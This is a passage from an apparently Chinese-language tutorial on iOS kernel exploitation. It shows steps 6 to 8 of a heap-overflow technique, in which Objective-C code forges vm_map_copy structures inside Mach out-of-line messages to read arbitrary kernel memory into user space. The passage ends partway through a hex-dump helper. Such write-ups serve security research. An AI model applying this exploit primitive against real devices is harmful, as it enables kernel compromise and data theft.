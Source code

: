 6、再次向自己发消息,ool descriptor 的大小为: 960 – sizeof(fake_vm_map_copy_64),因为系统会从 zone-1024 中分配 960 大小的内存块,这样我们只要控制 960 内存块的内容就可以控制溢出。

7、控制溢出:

```
- (void)constructPayload:(uint8_t *)buffer
          kobjectAddress:(mach_vm_address_t)kobject_address
             readAddress:(mach_vm_address_t)address
               _readSize:(mach_vm_size_t)size
`{`
    // 0xA8 = 168(payload) = 256 - sizeof(fake_vm_map_copy_64)
    if (size &lt; 0xA8) `{`
        size = 0xA8;
    `}`
     
    // 0x368 = 872 = 960 - 88
    // 0x0A8, 0x1A8, 0x2A8, 0x3A8
    // 0x3A8 - 0x368 = 0x40 = 64
    fake_vm_map_copy_64 *vm_copy_struct_ptr = (fake_vm_map_copy_64 *)(buffer + 0xA8);
    for (int idx = 0; idx &lt; 3; ++idx) `{`
        memset(vm_copy_struct_ptr, 0, sizeof(fake_vm_map_copy_64));
         
        if (idx == 0) `{`
            vm_copy_struct_ptr-&gt;type = 0x3;
            vm_copy_struct_ptr-&gt;size = size;
            vm_copy_struct_ptr-&gt;kdata = address;
            vm_copy_struct_ptr-&gt;kalloc_size = 0x100;
        `}`
        else `{`
            vm_copy_struct_ptr-&gt;type = 0x3;
            vm_copy_struct_ptr-&gt;size = 0xA8; // 0xA8 = 256 - 0x58 = 168 = ool memory size
            vm_copy_struct_ptr-&gt;kdata = kobject_address;
            vm_copy_struct_ptr-&gt;kalloc_size = 0x100;
        `}`
         
        vm_copy_struct_ptr = (mach_vm_address_t)vm_copy_struct_ptr + 0x100;
    `}`
`}`
```

表23:控制溢出

8、直接接收消息,内核数据就被读到了用户空间。

下面这个代码片段(来源于网络)可以打印读到的内容,方便调试内核读:

```
void HexDump(char *description, void *addr, int len)
`{`
    int idx;
    unsigned char buff[17];
    unsigned char *pc = (unsigned char *)addr;
     
    // Output description if given.
    if (description != NULL)
        printf ("%s:n", description);
     
    // Process every byte in the data.
    for (idx = 0; idx &lt; len; idx++) `{`
        // Multiple of 16 means new line (with line offset).
         
        if ((idx % 16) == 0) `{`
            // Just don't print ASCII for the zeroth line.
            if (idx != 0)
                printf (" | %sn", buff);
             
```